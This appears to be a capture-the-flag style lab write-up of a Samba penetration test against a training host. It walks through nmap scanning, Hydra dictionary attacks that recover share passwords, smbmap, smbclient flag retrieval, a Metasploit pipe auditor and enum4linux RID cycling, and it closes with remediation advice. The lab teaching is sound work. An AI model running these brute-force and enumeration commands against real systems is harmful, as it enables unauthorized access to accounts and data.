# Samba Recon: Dictionary Attack

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (192.51.131.3) — Samba smbd 3.x–4.x (workgroup RECONLABS)<br>
**Objective:** Brute-force share credentials, map permissions and recover the flags.

## 1. Executive Summary

The target exposes a Samba server with per-user shares (`shawn`, `jane`, `nancy`, `admin`).
Dictionary attacks against SMB recover the `admin` and `jane` passwords; `smbmap` maps the
share permissions, `smbclient` loots the flags, and `pipe_auditor` and `enum4linux`
enumerate the named pipes and user SIDs (RID cycling).

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV 192.51.131.3
```

Ports 139 and 445 — Samba, workgroup RECONLABS.







## 3. Credential Brute-Force

Brute-forcing the `admin` account (Q2). Hydra with `unix_passwords.txt` (or `rockyou.txt`):

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.51.131.3 smb
# admin:password1
```



Same for `jane` (Q1 — equivalently via the `auxiliary/scanner/smb/smb_login` module):

```bash
hydra -l jane -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.51.131.3 smb
# jane:abc123
```



## 4. Mapping Share Permissions (smbmap)

```bash
smbmap -H 192.51.131.3 -u admin -p password1
```

`nancy` is **READ ONLY**; `shawn` and `admin` are READ/WRITE; `IPC$` no access (Q3).



> Q4: logging in with `jane:abc123` shows the `jane` share is **not browseable**.

## 5. Looting the Flags (smbclient)

The read-only `nancy` share holds a flag.

```bash
smbclient //192.51.131.3/nancy -U nancy
get flag
cat flag
# a1157f23d040fb4bc6f9a7277de65bf7
```



The `admin` share hides a `flag.tar.gz` under `hidden/` (Q5).

```bash
smbclient //192.51.131.3/admin -U admin
cd hidden
get flag.tar.gz
tar -xvzf flag.tar.gz
cat flag
# 2727069bc058053bd561ce372721c92e
```



## 6. Named Pipes (pipe_auditor)

```bash
use auxiliary/scanner/smb/pipe_auditor
# SMBUser admin / SMBPass password1
exploit
```

```
Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \ntsvcs, \srvsvc, \wkssvc
```



## 7. RID Cycling (enum4linux)

```bash
enum4linux -a -u admin -p password1 192.51.131.3
```



The SIDs recovered via RID cycling (Q7):

```
shawn : S-1-22-1-1000
jane  : S-1-22-1-1001
nancy : S-1-22-1-1002
admin : S-1-22-1-1003
```



## 8. Remediation Recommendations

1. **Enforce strong passwords & lockout** — `admin`/`jane` fell to dictionary attacks.
2. **Restrict share access** with least privilege, and make non-public shares non-browseable.
3. **Disable anonymous/guest SMB and RID cycling** (`restrict anonymous`), and limit which
   named pipes are exposed.
4. **Keep Samba patched** and expose SMB only to trusted network segments.
